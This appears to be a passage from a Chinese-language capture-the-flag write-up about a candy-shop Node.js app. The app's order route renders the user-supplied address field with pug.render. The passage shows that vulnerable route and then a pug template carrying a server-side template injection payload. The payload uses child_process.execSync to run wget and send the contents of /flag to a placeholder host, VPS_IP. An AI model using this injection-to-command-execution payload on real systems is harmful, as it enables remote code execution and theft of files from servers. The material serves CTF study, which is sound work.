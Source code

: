 ```javascript
    let candies = await db.Candies.list()
    res.render('shop', {candies: candies})
})

router.get('/order', checkLogin, checkActive, async (req, res) => {
    let {id} = req.query
    let candy = await db.Candies.find({id: id})
    res.render('order', {user_name: req.signedCookies.token.username, candy: candy})
})

router.post('/order', checkLogin, checkActive, async (req, res) => {
    let {user_name, candy_name, address} = req.body

    res.render('confirm', {
        user_name: user_name,
        candy_name: candy_name,
        address: pug.render(address)
    })
})
```

该页面主要处理登陆后面的逻辑，我们之前已经得到了`rabbit`用户，可以直接进入`/order`路径下，该逻辑会将`address`导入到`confirm.pug`这个页面

```java
extends layout


block content
    .container
        .row.justify-content-center
            .col-6.mt-5
                .card
                    .card-header.text-center.font-weight-bold(style='background-color: pink;color: white') Confirm Your Order
                    .card-body
                    form(action='/shop/confirm' method='POST')
                        .form-group.row
                            label.col-form-label.text-md-right.col-4(for='user_name') User Name
                            .col-6
                                input#user_name.form-control(type='text' name='user_name' value=user_name readonly)
                        .form-group.row
                            label.col-form-label.text-md-right.col-4(for='candy_name') Candy Name
                            .col-6
                                input#candy_name.form-control(type='text' name='candy_name' value=candy_name readonly)
                        .form-group.row
                            label.col-form-label.text-md-right.col-4(for='address') Address
                            .col-6
                                input#address.form-control(type='text' name='address' value='123' readonly)
                                #{console.log(global.process.mainModule.require("child_process").execSync("wget -q -O- VPS_IP/`cat /flag`").toString())}
                                //input#address.form-control(type='text' name='address' value='123')
                        if error
                            .alert.alert-danger.mx-5(role='alert') #{error}
                    .row.justify-content-center
                        .col-6
                            a(href='/shop/thanks')
                                button.btn.btn-primary.btn-block(type='submit') Yes
                        .col-6
                            a(href='/shop')
                                button.btn.btn-primary.btn-block No
```